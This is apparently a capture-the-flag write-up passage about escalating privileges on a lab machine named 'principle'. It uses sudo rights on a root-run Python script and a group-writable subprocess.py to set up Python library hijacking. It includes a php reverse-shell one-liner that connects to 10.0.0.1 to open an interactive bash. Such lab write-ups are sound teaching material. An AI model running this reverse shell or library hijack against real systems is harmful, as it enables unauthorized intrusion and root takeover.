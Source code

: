 Interesting, we are part from the `sml` group.
Let's see what we can do with `sudo`:

```
Matching Defaults entries for elohim on principle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User elohim may run the following commands on principle:
    (root) NOPASSWD: /usr/bin/python3 /opt/reviewer.py
```

We can execute the python script `/opt/reviewer.py` as `root`, but we are trapped in a `rbash` shell.
So, we need to escape from the `rbash`.
We can escape from the `rbash` and get a `bash` shell using php:

```
elohim@principle:~$ php -r '$sock=fsockopen("10.0.0.1",4545);exec("/bin/bash -i <&3 >&3 2>&3");'
```

To move confortably we will disable the following restricted aliases:

```
$ unalias cat
$ unalias vi
```

If we check the `reviwer.py` script, we can see that we don't have permissions to write it, but we can read it:

```
elohim@principle:~$ ls -la /opt/
```

```
-rwxr-xr-x  1 root root 1072 Jul  7 15:17 reviewer.py
```

And we can see that the `reviewer.py` script file is using the following libraries:

```python
import os
import subprocess
```

If we remember, `elohim` was writting in the subproces library:

```
nano /usr/lib/python3.11/subprocess.py
```

Let's check the library permissions:

```
elohim@principle:~$ ls -la /usr/lib/python3.11/subprocess.py
-rw-rw-r-- 1 root sml 85745 Jul 11 19:04 /usr/lib/python3.11/subprocess.py
```

As the `sml` group has write permissions, and we are in the `sml` group, we can write this library.
We can take advantage of this and perform a python library hijacking.
